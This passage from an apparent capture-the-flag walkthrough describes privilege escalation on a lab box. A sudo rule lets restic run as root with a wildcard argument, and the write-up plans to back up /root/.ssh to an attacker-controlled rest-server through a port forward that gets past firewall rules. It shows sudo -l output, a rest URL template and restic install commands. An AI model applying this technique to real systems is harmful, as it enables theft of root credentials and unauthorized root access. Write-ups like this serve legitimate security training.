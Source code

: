 ![Shell as www-data](https://github.com/roughiz/registry-walktrough/blob/master/shell.png)

www-data user have the right to execute a command as root without password: 

```
sudo -l
Matching Defaults entries for www-data on bolt:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bolt:
    (root) NOPASSWD: /usr/bin/restic backup -r rest*
```

But we have the character "*" in the end of the command. From here i knwon that i can divert the normal execution and exploit this sudo right.

#### Restic backup tool
Restic is a multi-platform command line backup software program that is designed to be fast, efficient, and secure. Restic supports a variety of backends for storing backups, including a local server, SFTP server, HTTP Rest server, and a number of cloud storage providers, including Backblaze B2.
And here the user use the rest http backend as backend. So the idea is to use this command and backup the "/root/.ssh" to our box, and to do we have to port forward a local port from victim to our attacker box, to bypass iptables rules.

We have also to use the rest server api like :
##### "rest:http://${REST_USER}:${REST_PASS}@${REST_SERV}:8000/${REST_REPO}"

In this [url](https://www.kloppenborg.net/blog/backups/2019/06/12/restic-backup-server) we have an example of how to set up a backup using restic and rest-server as backend.

#### Install rest-server  

```
$ wget https://github.com/restic/restic/releases/download/v0.9.5/restic_0.9.5_linux_amd64.bz2
$ bunzip2 restic_0.9.5_linux_amd64.bz2
$ sudo cp restic_0.9.5_linux_amd64 /usr/local/bin/restic
```
